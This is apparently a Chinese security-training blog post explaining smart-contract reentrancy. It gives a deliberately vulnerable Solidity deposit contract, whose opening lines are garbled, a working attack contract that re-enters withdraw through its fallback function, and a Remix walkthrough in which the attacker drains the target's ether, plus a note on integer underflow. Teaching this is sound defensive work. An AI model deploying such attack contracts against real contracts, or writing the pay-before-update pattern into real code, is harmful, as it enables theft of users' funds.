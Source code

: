#  区块链安全 | 智能合约重入漏洞   
原创 zkaq-君叹  掌控安全EDU   2024-12-30 04:04  
  
扫码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
# 本文由掌控安全学院 -   君叹 投稿  
  
**来****Track安全社区投稿~**  
  
**千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
## 智能合约安全  
  
在当今数字化浪潮汹涌澎湃的时代，区块链技术无疑是一颗耀眼的明星，正深刻地重塑着众多领域的运作模式。区块链，本质上是一种去中心化的分布式账本，它通过密码学原理确保了数据的不可篡改与安全性，使得交易信息能够在众多互不信任的节点间实现透明、可靠的记录与验证。而智能合约，则是区块链技术最具创新性与变革性的应用之一。智能合约是一种自动执行的合约条款，以代码形式部署在区块链网络之上。它犹如一位忠诚且严谨的数字化管家，一旦预设的条件被触发，就会自动且精准地执行相应的操作，无需人工干预，从而极大地提高了交易的效率与公正性，减少了人为操作可能带来的误差、欺诈以及冗长的中间环节。无论是金融领域的复杂交易、供应链管理中的物流与支付流程，还是数字资产的交易与管理等场景，智能合约都展现出了巨大的潜力与应用价值。然而，就像任何新兴且强大的技术一样，智能合约在带来便利与机遇的同时，也面临着诸多安全挑战，这些安全隐患犹如隐藏在暗处的礁石，随时可能使智能合约的应用之船触礁搁浅，因此对智能合约安全的深入探讨与研究具有极为重要的现实意义。  
  
简单理解, 智能合约就是运行在区块链上的后端程序, 用来提供服务, 区块链技术是使互联网从web2.0时代迈向web3.0时代的技术, 而Solidity是一种高级编程语言, 在熟悉web逻辑漏洞的情况下, 只要简单入门Solidity, 再结合本教程, 就能快速入门智能合约安全的领域.  
  
Solidity官方文档: https://docs.soliditylang.org/zh/v0.8.21/ Remix: https://remix.ethereum.org/ Remix是基于浏览器的开发Solidity的IDE.  
#### 重入攻击  
  
重入攻击的漏洞点存在于先给钱后记帐 我们先来看一段漏洞代码  
```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0  uint) blances;
    // 存钱方法
    function deposit() public payable {
        require(msg.value > 10);
        blances[msg.sender] += msg.value; 
    }
    // 查询余额方法
    function query() public view returns (uint){
        return blances[msg.sender];
    }
    // 取钱方法
    function withdraw(uint blance) public payable {
        require(blances[msg.sender] >= blance, "You don't have enough balance");
        (bool sent, ) = msg.sender.call{value:blance}(""); // 调用 call 进行转账
        if (sent) { // 判断是否转账成功
            blances[msg.sender] -= blance; // 转账成功则扣除相应的余额
        }
    }
}
```  
  
漏洞点就在上述代码中的withdraw方法中, 是先进行转账, 然后才扣除相应的余额 这会造成什么问题呢? 很显然开发者没有考虑到存款取款的账户也可以是智能合约 在学习过Solidity后, 我们知道, 智能合约中存在fallback方法, 用来处理当合约收到转账的情况 先来看我们的攻击代码 随后对原理进行详细讲解  
```
contract Attack {
    Blan blan;
    bool flag;
    constructor(address blan_address) {
        blan = Blan(blan_address);
    }
    function attack() public payable {
        require(msg.value == 1 ether);
        blan.deposit{value:1 ether}(); // 存入 1eth
        blan.withdraw(10 ** 18); // 取出1 eth, 这里以wei为单位, 10**18 wei = 1 eth
    }
    fallback() external payable {
        if (!flag) {
            blan.withdraw(10 ** 18);
            flag = true;
        }
     }
}

```  
  
我们可以看到, 有一个 flag 值 当触发攻击函数后, 会像目标合约存入 1eth 再提取1eth 我们来看一下执行的流程图  
  
图中箭头标注1, 2的部分是第一次访问到这块, 会跟着1走, 第二次再访问到这块, 会走2.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ46LFANecz7sbuupeWsk68mWoRb3KfwFKYbiaWvpUTicljpfa6iccmBg4dA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
  
流程图中很明显的告诉我们 漏洞触发的原因是, 当转账给一个智能合约时 会等待该合约的 fallback() 函数执行完成后 才算这行代码执行完毕, 才会接着继续下一行代码 其中利用的像是一种递归的思想  
  
另外此处还存在整型下溢漏洞 会将我的余额变为 2 ** 256 - 1 第一次存入后, 我的余额为1 两次取出后, 我的余额就变成了 1 - 1 - 1, 由于余额是 uint类型表示的 我的余额就会变成 2**256 -1 wei  
#### 测试:  
  
编译时选择Solidity7版本, Solidity8中添加了当发生溢出时自动回退的功能.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4IibrkqwkiaZl4qul4LJVoxbZa4rDqWrF82eDNluPLGBVBU2SFqpKT6Pg/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
部署后, 我们首先用默认用户存进去10eth  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4jZhRcPaJVa7E8TFY0o4gRwPrMSNL05fepGD0KvyjsO1GClCtsegianQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ40sMwuWZu9tslAbFYKnPhJODfH5s9PenUl9XAo7PBKd0vnsGw2NmPHQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4ian4IghwibxWe6uMgRGMnabNDzbaneKhv3MF6BMAHQNVS7zjAkMKF52A/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
然后部署攻击合约  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4zNregFebiakNtE5o6E1XwveHhDQ8d5posFSIEOSgnRc125Bmhh5t2CA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
设置发送1eth  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4vicI5QG0QQ0GXiaGicdbVmg3icPwvIqFg2q96H7oL9iakTMhhcicf1odkJrA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ49lawxhKza7SH3y0ibqm9Lkhv93ed7S8U6ia3Y91qVszWDXmFOT901X3Q/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
但是结果我们发现 对方所有eth都到了我们账户上 这是为什么呢?  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ40liaenwC4HK1fcuvwCdheDbjkibjgfqNlp1ZFCPtcCQutsqRuLvP879A/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
仔细观察我们攻击代码中的fallback()函数 我们这里也是先触发取款, 才更改flag标记 但是第二次取款的时候, 还是会再次触发fallback函数, 这里也同样是重入漏洞的逻辑, 我们需要先更改flag标志, 再调用取款函数, 才能达到我们上述的效果, 大家可以自行尝试, 这里便不做演示.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4t6qaArw6lbsan4pebOzgAWoywKXeUxxMeBDAVsaGPnbIFcNcKwNdmQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
```
```  
  
  
